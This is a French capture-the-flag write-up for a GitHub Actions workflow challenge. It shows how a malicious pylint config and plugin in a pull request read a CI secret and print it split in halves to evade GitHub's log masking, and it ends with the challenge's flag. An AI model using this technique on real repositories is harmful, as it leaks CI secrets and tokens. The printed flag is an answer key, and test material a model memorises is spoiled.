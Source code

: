 # D-8 GitHub Workflows - Egypt

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le worflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Egypt
on:
  pull_request:
    types:
      - opened
      - synchronize
      - edited

jobs:
  cairo:
    if: contains(github.event.pull_request.title, '[Lint]')
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions: 
      contents: read
      pull-requests: read
    env:
      FLAG: ${{ secrets.FLAG_EGYPT }}
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - name: Checkout
        uses: actions/checkout@v4
      - name: Checkout
        uses: actions/checkout@v4
        with: 
          ref: ${{ github.event.pull_request.head.sha }}
          path: pr
      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: 3.12
      - name: Install dependencies
        run: pip install pylint
      - name: Set config from upstream
        run: cp .pylintrc pr/.pylintrc
      - name: Lint with pylint
        id: lint
        continue-on-error: true
        working-directory: pr
        run: |
          pylint . 
```

### Trouver comment activer le workflow

Ce workflow est lancé sur les PR ayant '[Lint]' dans leur titre.

```yaml
on:
  pull_request:
    types:
      - opened # Lancé lorsqu'on crée une nouvelle PR
      - synchronize # Lancé lorsqu'un nouveau commit est ajouté a la PR
      - edited # Lancé lorsqu'un changement a la PR est effectué

...

 if: contains(github.event.pull_request.title, '[Lint]')
```

![pr](./assets/egypt-pr.png)


### Exploit
Ce workflow utilise PyLint pour analyser le code Python selon une liste de règles. On ne peut changer directement le fichier de configurations puisque le workflow copie celui provenant du repo original (en lecture seule).

```
cp .pylintrc pr/.pylintrc
```

Par contre, en lisant la [documentation de PyLint](https://pylint.pycqa.org/en/latest/user_guide/usage/run.html#command-line-options), on peut voir que cet outils supporte plusieurs fichier de configuration. De plus, PyLint support d'ajouter des extensions en Python.

`pylintrc`
```toml
[MASTER]

# Permet d'importer des modules du fichier courant. Les variables d'environments ne sont pas loader a cette étape
init-hook='import sys; import os; print(os.listdir("..")); sys.path.append(".")'
load-plugins=my_plugin
```

`my_plugin.py`
```py
import os
import base64
import sys

def run_sh_code(command):
    result = os.popen(command).read()
    return result

def register(linter):
    flag = os.getenv('FLAG', 'none')
    b64_flag = base64.b64encode(flag.encode()).decode()
    # Split le flag en 2 pour éviter que Github ne le censure
    print("Flag: ", b64_flag[0:len(b64_flag)//2], " | ", b64_flag[(len(b64_flag)//2)-4:])

```

![issue](./assets/egypt-workflow.png)

---
## Flag:

`flag-egypt-9312131bb234`